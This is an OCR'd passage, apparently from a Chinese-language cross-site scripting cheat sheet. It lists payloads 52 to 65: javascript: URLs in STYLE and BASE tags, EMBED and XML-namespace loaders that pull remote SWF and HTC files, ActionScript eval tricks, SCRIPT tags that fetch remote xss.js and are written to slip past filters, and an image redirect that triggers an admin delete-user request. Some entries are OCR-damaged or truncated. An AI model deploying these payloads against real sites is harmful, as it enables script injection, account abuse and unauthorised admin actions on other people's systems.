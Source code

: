 (52) IMG STYLE方式

    exppression(alert(“XSS”))’>

(53) STYLE background

    <STYLE><STYLE
    type=”text/css”>BODY{background:url(“javascript:alert(‘XSS’)”)}</STYLE>

(54) BASE

    <BASE HREF=”javascript:alert(‘XSS’);//”>

(55) EMBED标签,你可以嵌入FLASH,其中包涵XSS

    <EMBED SRC=”http://3w.org/XSS/xss.swf” ></EMBED>

(56) 在flash中使用ActionScrpt可以混进你XSS的代码

    a=”get”;
    b=”URL(\”";
    c=”javascript:”;
    d=”alert(‘XSS’);\”)”;
    eval_r(a+b+c+d);

(57) XML namespace.HTC文件必须和你的XSS载体在一台服务器上

    <HTML xmlns:xss>
    <?import namespace=”xss” implementation=”http://3w.org/XSS/xss.htc”>
    <xss:xss>XSS</xss:xss>
    </HTML>

(58) 如果过滤了你的JS你可以在图片里添加JS代码来利用

    <SCRIPT SRC=””></SCRIPT>

(59) IMG嵌入式命令,可执行任意命令

    <IMG SRC=”http://www.XXX.com/a.php?a=b”>

(60) IMG嵌入式命令(a.jpg在同服务器)

    Redirect 302 /a.jpg http://www.XXX.com/admin.asp&deleteuser

(61) 绕符号过滤

    <SCRIPT a=”>” SRC=”http://3w.org/xss.js”></SCRIPT>

(62)

    <SCRIPT =”>” SRC=”http://3w.org/xss.js”></SCRIPT>

(63)

    <SCRIPT a=”>” ” SRC=”http://3w.org/xss.js”></SCRIPT>

(64)

    <SCRIPT “a=’>’” SRC=”http://3w.org/xss.js”></SCRIPT>

(65)

    <SCRIPT a=`>` SRC=”http://3w.org/xss.js”></SCRIPT>
